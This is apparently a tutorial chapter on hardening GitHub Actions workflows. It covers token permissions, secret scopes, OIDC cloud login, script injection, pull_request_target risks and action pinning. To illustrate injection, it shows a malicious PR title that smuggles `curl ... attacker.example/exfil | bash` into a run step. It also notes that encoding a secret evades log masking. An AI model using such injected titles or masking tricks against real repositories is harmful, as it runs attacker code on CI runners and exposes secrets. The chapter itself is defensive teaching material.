


# CI/CD Security Hardening, Secrets, OIDC, and Supply-Chain Defense

## Learning Goals

After completing this chapter, you should be able to:

- Apply the Principle of Least Privilege to `GITHUB_TOKEN` using empty top-level `permissions: {}` and minimal per-job scopes.
- Manage Organization, Repository, and Environment secrets safely while understanding fork Pull Request isolation and log-masking boundaries.
- Implement keyless cloud authentication (AWS STS and GCP Workload Identity Federation) using GitHub OpenID Connect (OIDC) JWT claims.
- Detect and remediate critical CI/CD vulnerabilities—specifically Expression Script Injection and `pull_request_target` Pwn Requests.
- Harden your supply chain with 40-character SHA action pinning, Dependabot automation, CodeQL SARIF scanning, and SLSA build provenance attestations.

---

## Least-Privilege GITHUB_TOKEN and Explicit Permissions

Every workflow run receives an automatic, scoped installation access token exposed as `secrets.GITHUB_TOKEN` (or `github.token`). Historically, GitHub defaulted this token to **read-write across almost every repository scope**—meaning a compromised dependency or build script could push code, tamper with tags, or delete releases.

Today, every hardened workflow must lock down `GITHUB_TOKEN` explicitly at the top of the file and grant elevated scopes **strictly to the individual job** that needs them:

```yaml
name: Hardened CI & Release

on: [push, pull_request]

# 1. Strip ALL default permissions at the workflow root
permissions: {}

jobs:
  test:
    # 2. Grant read-only code access ONLY
    permissions:
      contents: read
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - run: make test

  security-scan:
    permissions:
      contents: read
      security-events: write  # Needed to upload CodeQL / Trivy SARIF results
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - uses: github/codeql-action/upload-sarif@v3
        with:
          sarif_file: results.sarif

  publish-image:
    if: github.ref == 'refs/heads/main'
    needs: [test, security-scan]
    permissions:
      contents: read
      packages: write         # Needed to push container images to ghcr.io
      id-token: write         # Needed for OIDC / provenance attestation
      attestations: write     # Needed for actions/attest-build-provenance
    runs-on: ubuntu-latest
    steps:
      - run: echo "Publishing with minimal required scopes..."
```

Also enforce **Settings → Actions → General → Workflow permissions → Read repository contents and packages permissions** across your entire organization so newly created workflows cannot run over-privileged by accident.

---

## Managing Secrets, Variables, and Environment Scopes

GitHub provides three hierarchical scopes for encrypted `secrets.*` and plaintext `vars.*`:

| Scope | Precedence | Typical Usage | Protection Guarantees |
| :--- | :--- | :--- | :--- |
| **Environment** | Highest (overrides Repo & Org) | Production deploy keys, cloud roles | Can enforce **Required Reviewers**, wait timers, and branch restrictions |
| **Repository** | Middle (overrides Org) | Repo-specific API tokens, webhooks | Scoped strictly to a single repository |
| **Organization** | Lowest (default shared) | Shared registry tokens, Slack webhooks | Access policy restricts which repositories may read the secret |

### Secret Redaction Boundaries & Fork PR Isolation

- **Automatic Redaction (`***`)**: GitHub masks known secret values in workflow logs, **but simple transformations defeat naive masking**. Base64 encoding (`echo "$SECRET" | base64`), reversing strings, or splitting characters with spaces leaks the value in plain sight. Never print secrets or pass encoded secrets through `echo`.
- **Fork Pull Request Isolation**: Workflows triggered by `pull_request` from a forked repository run with a **read-only `GITHUB_TOKEN`** and receive **no repository or environment secrets** (except `GITHUB_TOKEN`). This guarantees external contributors cannot exfiltrate private credentials by opening a PR that edits your test script.

---

## Keyless Cloud Authentication with OIDC

Storing static `AWS_ACCESS_KEY_ID` / `AWS_SECRET_ACCESS_KEY` or long-lived Google Cloud JSON key files inside GitHub Secrets creates serious operational risk: static keys never expire on their own, require manual rotation, and can be reused indefinitely if leaked.

**OpenID Connect (OIDC)** replaces static cloud credentials with **short-lived, cryptographically verifiable token exchange**.



### How OIDC Trust Claims Work

When a job grants `id-token: write`, the runner requests a signed RS256 JWT from `token.actions.githubusercontent.com` containing verifiable identity claims:

- **`iss`**: `https://token.actions.githubusercontent.com`
- **`aud`**: Target cloud audience (e.g., `sts.amazonaws.com`)
- **`sub`**: Structured workload identity, e.g.:
  - Branch push: `repo:squared-studio/api:ref:refs/heads/main`
  - Environment deploy: `repo:squared-studio/api:environment:production`
  - Tag release: `repo:squared-studio/api:ref:refs/tags/v1.4.0`

By configuring your Cloud IAM Trust Policy to require an exact `sub` match (such as `repo:squared-studio/api:environment:production`), even another branch or fork inside the same repository **cannot** assume the production cloud role.

### AWS STS & GCP Workload Identity Federation Examples

```yaml
jobs:
  deploy-aws:
    environment: production
    runs-on: ubuntu-latest
    permissions:
      id-token: write   # Mandatory for requesting the OIDC JWT
      contents: read
    steps:
      - uses: actions/checkout@v4

      - name: Assume AWS Role via OIDC (Zero Static Keys)
        uses: aws-actions/configure-aws-credentials@v4
        with:
          role-to-assume: arn:aws:iam::123456789012:role/github-prod-deployer
          aws-region: us-east-1

      - name: Deploy S3 / ECS workload
        run: aws sts get-caller-identity

  deploy-gcp:
    environment: production
    runs-on: ubuntu-latest
    permissions:
      id-token: write
      contents: read
    steps:
      - uses: google-github-actions/auth@v2
        with:
          workload_identity_provider: projects/123456789/locations/global/workloadIdentityPools/gh-pool/providers/github
          service_account: ci-deployer@my-project.iam.gserviceaccount.com
```

---

## Preventing Script Injection and Pwn Requests

Two vulnerability classes account for the vast majority of real-world GitHub Actions compromises: **Expression Script Injection** and **Privileged Fork Checkouts (`pull_request_target`)**.



### 1. Expression Script Injection (`${{ ... }}` Inside `run:`)

GitHub evaluates `${{ ... }}` expressions **before** handing the shell script to `bash`. If an expression contains attacker-controlled strings—such as `github.event.pull_request.title`, `github.head_ref`, `github.event.issue.title`, or `github.event.comment.body`—an attacker can break out of quotes and run arbitrary commands.

**VULNERABLE:**
```yaml
- name: Echo PR title
  run: echo "Checking PR: ${{ github.event.pull_request.title }}"
```
If someone opens a PR titled `fix"; curl -s https://attacker.example/exfil | bash #`, the runner executes the attacker's payload directly!

**HARDENED (Always Bind Untrusted Values via `env:` and Quote `"$VAR"`):**
```yaml
- name: Safely inspect PR title
  env:
    PR_TITLE: ${{ github.event.pull_request.title }}
  run: printf 'Checking PR: %s\n' "$PR_TITLE"
```
Because `PR_TITLE` is passed through the process environment rather than textual YAML template expansion, Bash treats its contents strictly as inert string data.

### 2. The "Pwn Request" (`pull_request_target` + Checking Out Fork Code)

Unlike `pull_request`, **`pull_request_target`** runs in the context of the **base repository**—meaning it **receives repository secrets and a read-write `GITHUB_TOKEN`**, even on fork PRs. If a workflow uses `pull_request_target` AND checks out `github.event.pull_request.head.sha` (or `actions/checkout` with `ref: ${{ github.event.pull_request.head.ref }}`), any attacker can open a PR modifying `Makefile` or `package.json` and immediately dump all repository secrets!

**HARDENED Pattern (Two-Workflow Split):**
1. **`pr-ci.yml` (`on: pull_request`)**: Checks out and executes untrusted fork code with **zero secrets** and read-only token, then saves sanitized results (such as a PR number or coverage summary text file) via `actions/upload-artifact@v4`.
2. **`pr-comment.yml` (`on: workflow_run`)**: Triggered on the default branch after `pr-ci.yml` completes; downloads the artifact, parses it safely without executing scripts from it, and posts the PR comment using `GITHUB_TOKEN`.

---

## Supply-Chain Hardening: Pinning, Dependabot, and Attestations

### 1. Pin Third-Party Actions to 40-Character Commit SHAs

Tags like `@v4` or `@main` are mutable Git pointers. If an upstream maintainer account is compromised and an attacker force-pushes malicious code to `v4`, every workflow using `@v4` pulls the compromise on its next run. Pin third-party actions to immutable **full 40-character commit SHAs** with a comment noting the human-readable tag:

```yaml
- uses: actions/checkout@11bd71901bbe5b1630ceea73d27597364c9af683 # v4.2.2
- uses: actions/setup-python@a26af69be951a213d495a4c3e4e4022e16d87065 # v5.6.0
```

Keep SHA-pinned actions automatically up to date without manual toil using `.github/dependabot.yml`:

```yaml
version: 2
updates:
  - package-ecosystem: "github-actions"
    directory: "/"
    schedule:
      interval: "weekly"
```

### 2. Static Scanning & SLSA Build Provenance Attestations

- **Workflow Linting (`actionlint` & `zizmor`)**: Run `actionlint` and `zizmor` in CI to catch syntax errors, shellcheck bugs, unquoted injection sinks, and overly broad token permissions automatically.
- **CodeQL & SARIF Uploads**: Integrate `github/codeql-action` to scan application code and publish vulnerabilities straight to GitHub's Security tab.
- **SLSA Provenance (`actions/attest-build-provenance`)**: Cryptographically bind released binaries or container digests to the exact source commit, repository, and workflow file that built them:

```yaml
- name: Generate SLSA build provenance attestation
  uses: actions/attest-build-provenance@v2
  with:
    subject-path: "dist/*.tar.gz"
```

---

## Security Hardening Checklist

| Control | Weak Practice | Hardened Standard |
| :--- | :--- | :--- |
| **`GITHUB_TOKEN` Scope** | Implicit default permissions | `permissions: {}` at root + minimal per-job scopes |
| **Cloud Credentials** | Static `AWS_SECRET_ACCESS_KEY` / JSON keys | OIDC federation (`id-token: write`) + `sub` claim lock |
| **Untrusted Inputs** | Inline `${{ github.event.* }}` inside `run:` | Pass via `env:` and double-quote `"$VAR"` |
| **Fork Pull Requests** | `pull_request_target` + checking out fork code | `pull_request` (unprivileged) or split `workflow_run` |
| **Action Versions** | Mutable tags (`@main`, `@v2`) | Immutable 40-char commit SHA + Dependabot updates |
| **Build Outputs** | Unsigned ZIPs without provenance | SHA-256 checksums + `attest-build-provenance` |

---

## Practical Exercises

1. Audit an existing `.github/workflows/*.yml` file and lock down its token permissions with `permissions: {}` at the workflow level, moving `contents: read` and any required write scopes down to individual jobs.
2. Refactor a vulnerable step using `${{ github.event.pull_request.title }}` or `${{ github.head_ref }}` inside `run:` so the value is safely bound via `env:` and double-quoted.
3. Add `.github/dependabot.yml` configured with `package-ecosystem: "github-actions"` on a weekly schedule, and pin at least two actions in your CI workflow to their exact 40-character commit SHAs with version comments.
4. Design (on paper or in a sandbox repo) an AWS or GCP OIDC trust policy restricting `sub` strictly to `repo:<org>/<repo>:environment:production` so feature branches cannot assume deployment credentials.

##### Copyright (c) 2026 squared-studio
